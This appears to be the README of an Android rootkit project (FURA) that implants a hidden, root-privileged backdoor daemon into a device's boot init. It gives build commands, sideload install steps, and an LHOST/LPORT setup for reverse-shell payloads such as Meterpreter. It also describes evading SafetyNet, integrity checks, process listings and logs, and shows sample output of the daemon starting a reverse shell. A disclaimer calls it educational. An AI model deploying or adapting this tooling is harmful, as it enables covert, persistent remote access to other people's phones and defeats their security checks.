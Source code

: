 # Flashable Usermode Rootkit for Android

#### A reworked version of [unlocked-bootloader-backdoor-demo](https://github.com/LuigiVampa92/unlocked-bootloader-backdoor-demo) by LuigiVampa92

#### This is currently an experimental work. Stability is not guaranteed.

FURA is a systemless flashable backdoor installed into boot partition, particularly into _init_ binary.
On boot, it launches a system daemon with root privileges and unrestricted SELinux context, which is also hidden from process list.
Since it's operating within ramdisk, this tool can bypass most root checks, integrity checks, etc. and presumably cannot be detected without root _(not even by ADB shell)_.

Unlike its predecessor, this rootkit can bypass SafetyNet, since it doesn't need to modify system partition. \
However, it can't bypass hardware checks, such as hardware-backed SafetyNet on newer devices. 

The daemon is a custom executor (sort of a service manager) for an arbitrary payload. 
It runs silently and normally leaves no traces in _dmesg_, _logcat_, etc., unlike a regular service run by _init_ in loop.

FURA uses SELinux to its own advantage: not only to bypass stock policy restrictions, but to hide itself from the rest of the system.

This tool, like its predecessor, is based on [Magisk](https://github.com/topjohnwu/Magisk) source code, but does not necessary require root or Magisk preinstalled on the device. 
It mostly uses a part of MagiskInit to patch SELinux policy.

## Prerequisites

- Python 3
- Android SDK
- ADB / Fastboot tools
- Custom recovery image for your device (TWRP is recommended)
- ##### **No Magisk installed on device!!!** &ensp; (compatibility issues cause bootloop)

## Build

_cd_ into main project directory.

Set ANDROID_SDK_ROOT variable in your shell. For example:  
```
$ export ANDROID_SDK_ROOT=/opt/android-sdk
```

Install and configure NDK:
```
$ ./build_revshell.py ndk
```

Run the build script:
```
$ ./build_revshell.py clean      # before rebuild if changed config
$ ./build_revshell.py
```

The result is a sideloadable _.zip_ package which can be installed with TWRP or other recovery.

_Note_: if using reverse shell payloads (such as ReverseSSH, Meterpreter, etc.), set your LHOST and LPORT in `config.prop` before building.

_Note_: if SELinux is _permissive_ or _off_ on the target device, you can use alternative hiding method. See `config.prop` for details.

_Note_: you can disable logging (logcat and selinux) by setting `release=True` in the end of `build_revshell.py`.


## Deploy

#### Install

Run TWRP on your device:
```
$ fastboot boot twrp.img
```

Start sideload feature in Advanced / Sideload and then run:
```
$ adb sideload zip_reverse_shell_v2.zip
```

At this moment, **do not reboot** right away. Backup original boot partition:
```
$ adb pull /tmp/backup_original_partitions .
```

Run the command **before** rebooting into system, otherwise you will not be able to uninstall this tool properly and will have to find stock boot image for your device somewhere and flash it.

Reboot into system after you have backups on your PC.

#### Uninstall

You need a backup of original partitions made during installation. Move it to _/tmp_:
```
$ adb push backup_original_partitions /tmp/
```

Start sideload feature in Advanced / Sideload and then run:
```
$ adb sideload zip_reverse_shell_uninstall.zip
```

Reboot into system.

... or you can just flash stock boot image if you have one:
```
$ fastboot flash boot boot.img
```

#### Installation scripts

There are installation scripts to automate install / reinstall process. \
Before running one, rename or symlink your TWRP image as `twrp` in your current directory.

Simply connect your device via USB and switch it into Fastboot mode.
After installation, backups will be saved automatically.

`install.sh` to install and save backup image. \
`reinstall.sh` to reinstall quickly (if you have the backup).\
`uninstall.sh` to restore original boot image from backup.

## Test

The default payload in this repo is a dummy program that writes stuff to logcat. 

After boot is completed, you should be able to see its output:

```
$ adb logcat | grep revshell
03-18 00:34:41.732  2381  2381 D revshell_exec: Remounting /sbin to avoid mount detection ...
03-18 00:34:41.732  2381  2381 D revshell_exec: Setting up /mnt/secure/temp
03-18 00:34:41.732  2381  2381 D revshell_exec: Awaiting decryption ...
03-18 00:34:41.732  2381  2381 D revshell_exec: Decrypted. Setting persistence dir at /data/adb/.aura
03-18 00:34:46.817  2381  2381 I revshell_exec: restarting ...
03-18 00:34:46.884  3197  3197 D revshell: Start successfull!
03-18 00:34:46.885  3197  3197 D revshell: Signals are set to ignore
03-18 00:34:46.885  3197  3197 D revshell: Hey I'm a revshell process!
03-18 00:34:46.885  3197  3197 D revshell: My PID -- 3197
03-18 00:34:46.885  3197  3197 D revshell: My parent PID -- 2381
03-18 00:34:46.885  3197  3197 D revshell: My UID -- 0
03-18 00:34:46.885  3197  3197 D revshell: Awaiting encrypted FS decryption now...
03-18 00:34:51.241  2381  2381 D revshell_exec: Checking PID
03-18 00:34:51.311  3197  3197 D revshell: FS has been decrypted!
03-18 00:34:51.311  3197  3197 D revshell: Starting reverse shell now
03-18 00:34:56.242  2381  2381 D revshell_exec: Checking PID
03-18 00:34:56.312  3197  3197 D revshell: tick ! 10 seconds since process started
03-18 00:35:01.244  2381  2381 D revshell_exec: Checking PID
03-18 00:35:01.312  3197  3197 D revshell: tick ! 15 seconds since process started
03-18 00:35:06.244  2381  2381 D revshell_exec: Checking PID
```

You can disable logging (logcat and selinux) by setting `release=True` in the end of `build_revshell.py`.

## Custom payloads

To embed a custom payload, simply put your executable into `revshell/{arch}/` as `revshell`. It is not required to place executables for all archs: those where `revshell` is absent will use default payload. 

For more details on custom payloads, see _revshell_ directory.


## Acknowledgments

Thanks to LuigiVampa92 for a [great article](https://habr.com/ru/articles/541190/) on a physical access attack concept for devices with unlocked bootloader.

Thanks to topjohnwu and all Magisk maintainers for that brilliant swiss army knife for Android and a great contribution to Android modding community.

## Links

[Magisk repository](https://github.com/topjohnwu/Magisk) \
[Original system backdoor](https://github.com/LuigiVampa92/unlocked-bootloader-backdoor-demo)


## Disclaimer
    
    This tool is designed for educational purposes only. You may utilize this software solely on 
    your personal devices. Any attempt to use this tool on a device without explicit authorization 
    is unethical and may violate privacy laws.
    
    Running this tool may result in bricking or damaging your device. Create backups of your data
    and /boot (/boot_a, /boot_b) partitions before using the tool. 
    
    Use at your own risk. The developer is not responsible for any damage or loss caused by this tool.
